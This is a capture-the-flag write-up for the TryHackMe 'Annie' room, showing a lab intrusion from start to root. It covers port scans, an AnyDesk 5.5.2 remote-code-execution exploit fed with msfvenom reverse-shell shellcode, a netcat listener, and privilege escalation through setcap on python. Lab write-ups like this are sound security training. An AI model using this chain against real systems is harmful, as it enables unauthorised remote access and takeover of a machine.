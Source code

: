 # **_Annie TryHackMe Writeup_**
## SneakyTurtle158
## Room Creator: [TobjasR](https://tryhackme.com/p/TobjasR)
[Annie](https://tryhackme.com/room/annie)

Let's get right into it!

I always start off my enumeration on these THM machines with the threader3000 tool (mostly because waiting for a full nmap scan takes some time.)
Threader3000 is great becasue it allows for multithreaded port scanning. In a real world scenario this is a very noisy scan, so you wouldn't likely use it, but in THM boxes it's great becasue it can enumerate ports in 30-90 seconds and then will suggest an in-depth nmap scan that you can run against those specific ports. 

To use the tool you can clone it right from the repo using git:

```bash
cd /opt && git clone https://github.com/dievus/threader3000.git
cd threader3000
chmod +x threader3000.py
./threader3000.py
```

So I ran threader3000 and then did the suggested nmap scan to get some more info:

```bash
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.48.57
------------------------------------------------------------
Scanning target 10.10.48.57
Time started: 2022-07-03 15:18:55.885442
------------------------------------------------------------
Port 22 is open
Port 7070 is open
Port 40105 is open
Port scan completed in 0:01:13.866787
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:20 EDT
Nmap scan report for 10.10.48.57
Host is up (0.22s latency).

PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
40105/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.76 seconds
```

Ok, so the first thing that caught my eye here is the AnyDesk Client running on port 7070. I've never dealt with AnyDesk so I used some quick Google Fu to try to get up to speed on it. It looks like it also commonly uses a UDP port in the 50001-50003 range so I did a quick nmap UDP scan of that port range to try to confirm what I was seeing:

```bash
┌──(root㉿kali)-[/opt/THM/annie]
└─# nmap -sU -p50001-50003 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:38 EDT
Nmap scan report for 10.10.48.57
Host is up (0.24s latency).

PORT      STATE         SERVICE
50001/udp open|filtered unknown
50002/udp closed        unknown
50003/udp closed        unknown
```

So, knowing that we have the AnyDesk client running on this machine, I started to search around for any potential vulnerabilities or exploits.

This pretty quickly revealed an RCE exploit on exploit-db: [AnyDesk 5.5.2 - Remote Code Execution](https://www.exploit-db.com/exploits/49613)

Now, we don't really have any way of knowing if the version of the AnyDesk client is the vulnerable version, but we are going to take a shot in the dark here and see what happens. 

First thing we have to do is make some edits to the exploit to make sure the target IP reflects our target (the port number lines up with what we saw in our UDP scan):
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/1.png">
</p>

Next, we need to update the payload of the actual exploit with our own shellcode so we will first run the msfvenom command to get our specific shellcode:
```bash
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.13.40.163 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/2.png">
</p>
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/3.png">
</p>

Next, we just need to set up a listener on our machine using the port we designated in the payload (in my case port 4444):
```bash
# nc -nvlp 4444
```
Then, send it!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/4.png">
</p>

Back over on our listener, we've picked up a shell:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/5.png">
</p>

Let's clean up the shell with python's pty:
`# python3 -c 'import pty;pty.spawn("/bin/bash")'`

And we've got our first flag!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/6.png">
</p>

Now, my next step before going crazy trying to upload LinPEAS is to just check some basic privesc stuff. I don't have annie's password so let's look for som SUID binaries:
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/7.png">
</p>

Looks like we have setcap so we can use this to gain root shell by adding extended permissions to the python binary on the machine:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/8.png">
</p>

Now that we've added the extended permissions, all we need to do is use our python binary to spawn a shell and we'll have root. (Make sure you are using the binary that you added the +ep to not the one located in /usr/bin)

`# ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/9.png">
</p>

_And that's it! Thanks for following along._
